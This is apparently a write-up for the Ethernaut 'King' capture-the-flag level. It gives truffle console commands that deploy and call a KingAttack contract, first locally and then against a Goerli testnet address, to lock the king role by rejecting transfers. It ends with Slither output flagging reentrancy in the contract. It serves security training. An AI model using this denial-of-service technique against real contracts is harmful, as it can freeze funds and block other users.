 # King

[King](https://ethernaut.openzeppelin.com/level/0x725595BA16E76ED1F6cC1e1b65A88365cC494824)


Block transfer of "king" role by rejecting transfers.


<BR />


## Test Attack

```BASH
truffle develop
```

```JS
migrate

k1 = await King.deployed()
(await k1.prize()).toString()
await k1._king()
await web3.eth.sendTransaction({from: accounts[9], to: k1.address, value: 15})
await k1._king()


k2 = await KingAttack.deployed()
await web3.eth.getBalance(k2.address)
await k2.youKing()
```

<BR />


## Live Attack

```BASH
truffle console --network goerli
```

```JS
k1 = await King.at('0x86a68e10f55baccC4d979dE3b389d3b38B5d1Fe6')
(await k1.prize()).toString()
await k1._king()

k2 = await KingAttack.deployed()
await web3.eth.getBalance(k2.address)
sender = accounts[5]
await k2.youKing({from: sender})
```


<BR />


## Vulnerability Testing Tools


<BR />

### Slither

__Bug Detect:__ Vulnerability classifed as "informational".

```BASH
slither ./contracts/King.sol  --truffle-ignore-compile  --exclude-optimization 
```

```
Reentrancy in King.receive() (contracts/King.sol#16-21):
        External calls:
        - address(king).transfer(msg.value) (contracts/King.sol#18)
        State variables written after the call(s):
        - king = msg.sender (contracts/King.sol#19)
        - prize = msg.value (contracts/King.sol#20)
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-4
./contracts/King.sol analyzed (1 contracts with 76 detectors), 4 result(s) found
```


